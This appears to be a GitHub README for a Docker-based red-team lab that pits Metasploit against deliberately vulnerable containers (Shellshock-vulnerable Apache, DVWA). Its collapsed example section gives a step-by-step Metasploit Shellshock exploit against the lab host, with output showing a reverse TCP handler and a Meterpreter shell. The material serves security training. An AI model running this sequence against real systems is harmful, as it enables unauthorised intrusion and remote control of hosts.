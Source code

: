 # redteam

Red Team simulation

## Requirements

1. Install docker and docker-compose


## Components

- Postgres database
- Vulnerable hosts:
  - Apache httpd vulnerable to shellshock
  - DVWA (Damn Vulnerable Web Application)
- Metasploit RPC api (red team worker)
- Python director (red team director)
- Metasploit console (for debugging)


## Usage

1. Start the database: `docker-compose -f docker-compose-db.yml up -t 2`
   (persistence is disabled, removing the container will reset the data)
1. Start director and workers: `docker-compose -f docker-compose-workers.yml up -t 2`
1. Start the director: `docker-compose up --build -t 2`


## Manual use of metasploit

If you want to debug the state of the database or perform 
manual actions in metasploit, you can connect to the
msfconsole by ```docker attach redteam_msfconsole_1```


<details>
  <summary>Click to expand!</summary>

### Example attack


Scan the hostname "target2"
```
> db_nmap target2
```

Check that the host is now in the database
```
> hosts
Hosts
=====

address     mac                name                               os_name  os_flavor  os_sp  purpose  info  comments
-------     ---                ----                               -------  ---------  -----  -------  ----  --------
172.19.0.3  02:42:ac:13:00:03  redteam_target2_1.redteam_default  Unknown                    device         
```

Check which services are now in the database
```
> services
Services
========

host        port  proto  name   state  info
----        ----  -----  ----   -----  ----
172.19.0.3  80    tcp    http   open 
```

Let's assume you expect the host to be vulnerable to shellshock, let's exploit it:
```
> use exploit/multi/http/apache_mod_cgi_bash_env_exec
> show options
> set RHOSTS target2
> set TARGETURI /cgi-bin/stats
```

Run the exploit:
```
> exploit

[*] Started reverse TCP handler on 172.19.0.6:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (976712 bytes) to 172.19.0.3
[*] Meterpreter session 1 opened (172.19.0.6:4444 -> 172.19.0.3:60846) at 2020-11-04 12:52:22 +0000

meterpreter >
```

Profit!


</details>
